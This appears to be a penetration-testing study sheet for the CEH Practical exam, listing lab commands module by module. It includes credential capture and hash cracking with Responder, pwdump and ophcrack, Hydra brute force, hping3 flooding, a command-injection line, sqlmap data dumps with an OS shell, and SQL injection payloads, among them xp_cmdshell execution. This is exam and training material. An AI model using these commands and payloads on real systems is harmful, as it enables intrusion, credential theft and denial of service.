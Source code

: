# CEH Practical Notes

**Module 02: Enumeration**

* ping www.moviescope.com –f –l 1500 -> Frame size
* tracert www.moviescope.com -> Determining hop count

**Enumeration using Metasploit :**

* msfdb init
* service postgresql start
* msfconsole
* msf > db\_status
* nmap -Pn -sS -A -oX Test 10.10.10.0/24
* db\_import Test
* hosts -> To show all available hosts in the subnet
* db\_nmap -sS -A 10.10.10.16 -> To extract services of particular machine
* services -> to get all available services in a subnet

**SMB Version Enumeration using MSF**

* use scanner/smb/smb\_version
* set RHOSTS 10.10.10.8-16
* set THREADS 100
* run
* hosts -> now exact os\_flavor information has been updated

**Module 03 : Scanning Networks**

1. Port Scanning using Hping3: `hping3 --scan 1-3000 -S 10.10.10.10` --scan parameter defines the port range to scan and –S represents SYN flag.
2. Pinging the target using HPing3: `hping3 -c 3 10.10.10.10` -c 3 means that we only want to send three packets to the target machine.
3. UDP Packet Crafting `hping3 10.10.10.10 --udp --rand-source --data 500`
4.  TCP SYN request `hping3 -S 10.10.10.10 -p 80 -c 5`

    \-S will perform TCP SYN request on the target machine, -p will pass the traffic through which port is assigned, and -c is the count of the packets sent to the Target machine.
5. HPing flood `hping3 10.10.10.10 --flood`

**Module 04 : Enumeration**

**SNMP Enumeration (161) :**

* nmap –sU –p 161 10.10.10.12
* nmap -sU -p 161 --script=snmp-brute 10.10.10.12
* msfconsole
* use auxiliary/scanner/snmp/snmp\_login
* set RHOSTS and exploit
* use auxiliary/scanner/snmp/snmp\_enum
* set RHOSTS and exploit

**NetBIOS Enumeration (139) :**

* nbtstat –A 10.10.10.16
* net use
* net use \10.10.10.16\e ““\user:””
* net use \10.10.10.16\e ““/user:””
* NetBIOS Enumerator

**Enum4Linux Wins Enumeration :**

* enum4linux -u martin -p apple -U 10.10.10.12 -> Users Enumeration
* enum4linux -u martin -p apple -o 10.10.10.12 -> OS Enumeration
* enum4linux -u martin -p apple -P 10.10.10.12 -> Password Policy Information
* enum4linux -u martin -p apple -G 10.10.10.12 -> Groups Information
* enum4linux -u martin -p apple -S 10.10.10.12 -> Share Policy Information (SMB Shares Enumeration

**Active Directory LDAP Enumeration** : ADExplorer

**Module 05 : Vulnerability Analysis**

* nikto -h [http://www.goodshopping.com](http://www.goodshopping.com) -Tuning 1
* Nessus runs on [https://localhost:8834](https://localhost:8834)​
  * Username: admin
  * Password: password
* Nessus -> Policies > Advanced scan
* Discovery > Host Discovery > Turn off Ping the remote host
* Port Scanning > check the Verify open TCP ports found by local port enumerators
* Advanced
  * Max number of TCP sessions per host and = unlimited
  * Max number of TCP sessions per scan = unlimited
* Credentials > Windows > Username & Password
* Save policy > Create new scan > User Defined
* Enter name & Target
* Schedule tab > Turn of Enabled
* Hit launch from drop-down of save.

**Module 06: System Hacking**

**NTLM Hash crack :**

* responder -I eth0
* usr\share\responder\logs --> Responder log location
* john /usr/share/responder/logs/ntlm.txt

**Rainbow table crack using Winrtgen :**

* Open winrtgen and add new table
* Select ntlm from Hash dropdown list.
* Set Min Len as 4, Max Len as 6 and Chain Count 4000000
* Select loweralpha from Charset dropdown list (it depends upon Password).
* rcrack\_gui.exe to crack hash with rainbow table

**Hash dump with Pwdump7 and crack with ophcrack :**

* `wmic useraccount get name,sid` --> Get user acc names and SID
* PwDump7.exe > c:\hashes.txt
* Replace boxes in hashes.txt with relevant usernames from step 1.
* Ophcrack.exe -> load -> PWDUMP File
* Tables -> Vista free -> select the table directory -> crack

**Module 08: Sniffing**

* `http.request.method == “POST”` -> Wireshark filter for filtering HTTP POST request
* Capture traffic from remote interface via wireshark
  * Capture > Options > Manage Interfaces
  * Remote Interface > Add > Host & Port (2002)
  * Username & password > Start

**Module 13: Hacking Web Servers**

* FTP Bruteforce with Hydra
  * `hydra -L /root/Desktop/Wordlists/Usernames.txt -P /root/Desktop/Wordlists/Passwords.txt ftp://10.10.10.11`

**Module 14: Hacking Web Applications**

* Wordpress
  * wpscan --url [http://](http:/\[ip/)10.10.10.12:8080 --enumerate u
* WP password bruteforce
  * msfconsole
  * use auxiliary/scanner/http/wordpress\_login\_enum
* RCE
  * ping 127.0.0.1 | hostname | net user

**Module 15: SQL Injection**

* SQLMAP Extract DBS
  * `sqlmap -u “`[`http://www.example.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="xookies xxx" --dbs`
* Extract Tables
  * `sqlmap -u “`[`http://www.example.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="cookies xxx" -D moviescope --tables`
* Extract Columns
  * `sqlmap -u “`[`http://www.example.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="cookies xxx" -D moviescope -T User_Login --columns`
* Dump Data
  * `sqlmap -u “`[`http://www.example.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="cookies xxx" -D moviescope -T User_Login --dump`
* OS Shell to execute commands
  * `sqlmap -u “`[`http://www.example.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="cookies xxx" --os-shell`
* Login bypass
  * `blah' or 1=1 --`
* Insert data into DB from login
  * `blah';insert into login values ('john','apple123');`
* Create database from login
  * `blah';create database mydatabase;`
* Execute cmd from login
  * `blah';exec master..xp_cmdshell 'ping www.moviescope.com -l 65000 -t'; --`
